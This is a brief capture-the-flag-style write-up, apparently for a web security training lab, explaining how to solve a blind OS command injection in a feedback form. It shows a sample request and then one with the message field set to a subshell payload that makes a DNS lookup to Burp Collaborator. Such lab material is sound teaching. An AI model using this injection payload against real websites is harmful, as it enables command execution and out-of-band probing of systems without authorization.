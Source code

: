 This lab contains a blind OS command injection vulnerability in the feedback function.

If you open Firefox Developer Tools before sending out feedback you can see the request you're sending.

Example request would be something like this:

```
csrf	"wlp18kkrYxOls0OQAVO0YPJhSkw9MOeK"
name	"asd"
email	"asd@asd.asd"
subject	"asd"
message	"asd"
```

We can think a little and deduct that in order to display spaces to message body should be wrapped in quotes and we can inject a command in a subshell like this:

```
csrf	"wlp18kkrYxOls0OQAVO0YPJhSkw9MOeK"
name	"asd"
email	"asd@asd.asd"
subject	"asd"
message	"$(dig+burpcollaborator.net)"
```

DNS lookup will be made and lab will be completed.
